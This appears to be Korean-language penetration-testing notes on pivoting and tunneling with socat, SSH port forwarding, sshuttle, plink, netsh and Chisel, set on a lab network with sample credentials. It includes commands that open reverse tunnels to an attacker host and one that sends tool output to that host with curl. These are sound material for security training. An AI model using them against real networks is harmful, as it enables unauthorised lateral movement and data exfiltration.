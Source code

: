 ```bash
ip addr
# 네트워크 인터페이스의 IP 주소 확인

ip route
# 라우팅 테이블 확인
```
---
# Port Forwarding with Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
- `-ddd`: 디버그 레벨을 높여 상세 로그 출력
- `TCP-LISTEN:<포트>`: 지정된 포트에서 TCP 연결을 대기
- `fork`: 클라이언트 접속 시 프로세스를 fork 하여 다중 접속 처리
- `TCP:<IP>:<포트>`: 원격 서버와 TCP 연결
---
# SSH Local Port Forwarding
```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
```
- `ssh -N`: 원격 쉘 실행 없이 포트 포워딩만 설정
- `-L [bind_address:]port:host:hostport`: 로컬 포트를 원격 호스트의 특정 포트로 포워딩
---
# SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# /etc/proxychains4.conf
socks5 192.168.50.63 9999

proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `-D [bind_address:]port`: SOCKS 프록시 생성
- `proxychains`: 지정된 프록시를 통해 명령 실행
---
# SSH Remote Port Forwarding
```bash
sudo systemctl start ssh

ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
- `-R [bind_address:]port:host:hostport`: 원격 서버의 포트를 로컬로 포워딩
---
# SSH Remote Dynamic Port Forwarding
```bash
ssh -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998
```
---
# sshuttle
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `sshuttle -r <user@host:port> <subnet>`: VPN 유사 터널링
---
# ssh.exe
```bash
# kali
sudo systemctl start ssh

ssh.exe -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998

proxychains psql -h 10.4.50.215 -U postgres
```
---
# Plink
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
- `-ssh`: SSH 프로토콜 사용
- `-l <user>`: 로그인 사용자명
- `-pw <password>`: 비밀번호
- `-R`: 원격 포트 포워딩
---
# Netsh
```powershell
netsh interface portproxy add v4tov4 listenport=2222 '
listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" '
protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow

ssh database_admin@192.168.50.64 -p2222

netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
- `netsh interface portproxy add`: 포트 프록시 추가
- `netsh advfirewall firewall add rule`: 방화벽 규칙 추가
- `delete rule`: 규칙 삭제
- `del v4tov4`: 포트 프록시 제거
---
# Chisel
```bash
chisel server --port 8080 --reverse
```
- `server`: Chisel을 서버 모드로 실행
- `--port 8080`: 서버가 수신 대기할 포트 번호 (이 예시에서는 8080)
- `--reverse`: 클라이언트가 리버스 포워딩을 요청할 수 있도록 허용

```bash
chisel client 10.10.14.3:8000 R:80:127.0.0.1:80
```

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```
- `client <서버주소:포트>`: 지정된 서버에 클라이언트 모드로 접속
- `R:socks`: 서버 측에서 리버스 SOCKS 프록시를 생성  
  (즉, 서버에서 접속할 수 있는 SOCKS 포트가 열림)
- `&> /tmp/output`: 표준 출력과 표준 에러를 `/tmp/output` 파일로 리다이렉트
- `curl --data @/tmp/output <url>`: 실행 결과 로그를 서버(192.168.118.4:8080)로 전송



```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
- `ssh -o ProxyCommand=...`: SSH 접속 시 프록시 명령어 지정
- `ncat`: netcat의 확장 버전으로 다양한 프록시 지원
- `--proxy-type socks5`: SOCKS5 프로토콜을 사용
- `--proxy 127.0.0.1:1080`: 로컬에서 실행 중인 SOCKS 프록시(Chisel을 통해 생성된 것)
- `%h %p`: SSH가 접속하려는 원격 호스트와 포트로 치환됨
- `database_admin@10.4.50.215`: 최종적으로 접속할 SSH 서버 계정 및 주소
---
